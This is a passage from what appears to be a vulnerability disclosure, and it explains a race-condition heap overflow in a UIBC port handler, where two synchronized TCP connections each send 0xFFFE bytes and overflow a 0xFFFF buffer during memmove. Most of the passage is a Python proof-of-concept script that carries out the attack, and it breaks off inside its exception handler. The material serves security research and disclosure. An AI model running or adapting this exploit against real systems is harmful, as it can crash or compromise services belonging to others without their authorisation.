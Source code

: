 1.  **Simultaneous Connection:** Two threads establish separate TCP connections to the target's UIBC port. The `TCP_NODELAY` socket option is enabled to ensure data is sent immediately, without network buffering delays.
2.  **Controlled Sending Sequence:** Using barriers for synchronization, **Thread 0** sends a `0xFFFE`-byte packet. Immediately upon completion of that send operation, **Thread 1** is released and sends an identical `0xFFFE`-byte packet.
3.  **Triggering the Overflow:** This rapid, back-to-back delivery of large packets from two distinct connections exploits the race condition. The total data sent (`0x1FFFC` bytes) overwhelms the shared buffer's `0xFFFF` capacity, causing a heap overflow when the `memmove` operation is called inside the `OnReceive` method.

#### 4.3.2 PoC Implementation

The code below implements the logic described. The comments explain how each part of the script maps to the steps of the exploit.

> **Note**: For reliable crash detection, enable [PageHeap](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/gflags-and-pageheap) on the target process

```python
import threading
import socket
import time

# --- Configuration ---
WORKERS = 2                 # Must be 2 to trigger this specific race condition

# --- Synchronization Primitives ---
# A barrier to ensure both threads have connected before sending any data.
connect_barrier = threading.Barrier(WORKERS)
# The main barrier used to trigger the race condition.
race_trigger_barrier = threading.Barrier(WORKERS)

def trigger_race_condition(thread_id):
    """
    This function is executed by each thread. It connects to the target
    and uses barriers to create the precise packet timing needed for the exploit.
    """
    try:
        # 1. Create and connect the socket.
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # Ensure data is sent immediately without delay.
        sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
        sock.connect((TARGET_IP, TARGET_PORT))

        # Wait here until both threads are successfully connected.
        connect_barrier.wait()

        # 2. Prepare the payload: 65,534 bytes of 'A's.
        payload = b"A" * 0xFFFE

        # --- Core Race Condition Logic ---
        if thread_id == 0:
            # 3. Thread 0 sends its data first.
            sock.send(payload)
            # It then waits at the barrier, which will release Thread 1 to run.
            race_trigger_barrier.wait()
        else: # This is Thread 1
            # 4. Thread 1 waits here until Thread 0 has finished sending.
            race_trigger_barrier.wait()
            # Immediately after being released, Thread 1 sends its payload.
            # This causes the two packets to arrive almost simultaneously at the server.
            sock.send(payload)

    except Exception as e:
```